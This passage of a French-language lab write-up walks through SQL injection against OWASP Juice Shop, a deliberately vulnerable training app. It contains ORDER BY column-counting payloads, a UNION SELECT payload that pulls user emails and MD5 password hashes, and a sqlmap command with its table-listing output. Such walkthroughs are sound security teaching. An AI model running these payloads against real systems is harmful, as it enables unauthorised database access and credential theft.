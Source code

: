 <img width="1505" height="941" alt="image" src="https://github.com/user-attachments/assets/fc6ac75f-204d-4eb8-9a20-49353f1d90b1" />


### Étape 2 : Détermination du nombre de colonnes

Utilisation de la clause `ORDER BY` pour identifier le nombre de colonnes :

```sql
apple')) ORDER BY 1--
apple')) ORDER BY 2--
...
apple')) ORDER BY 9--  ← Succès
apple')) ORDER BY 10-- ← Erreur
```

<img width="758" height="476" alt="image" src="https://github.com/user-attachments/assets/ac672cde-6026-418b-88e8-438c690cedb2" />


Résultat : La requête contient 9 colonnes.

<img width="1499" height="938" alt="image" src="https://github.com/user-attachments/assets/72dca401-9dc5-459f-921b-c051197ef12d" />


### Étape 3 : Exploitation avec UNION

Une fois le nombre de colonnes identifié, nous pouvons extraire des données de la table `Users` :

```sql
apple')) UNION SELECT null, email, password, null, null, null, null, null, null FROM Users--
```

Cette requête nous retourne :
- Les emails des utilisateurs
- Les mots de passe hashés (MD5)

<img width="1504" height="938" alt="image" src="https://github.com/user-attachments/assets/869b0d5d-6b7a-4c22-9bea-22fa47a08216" />


### Étape 4 : Automatisation avec SQLMap

```bash
# Liste des tables
sqlmap -u "http://owasp.thm:3000/rest/products/search?q=*" -p q \
  --dbms=SQLite --prefix="'))" --suffix="-- " \
  --tables --batch
```

Récupération de la liste complète des tables de la base de données

```
[10:48:24] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[21 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| Hints             |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
```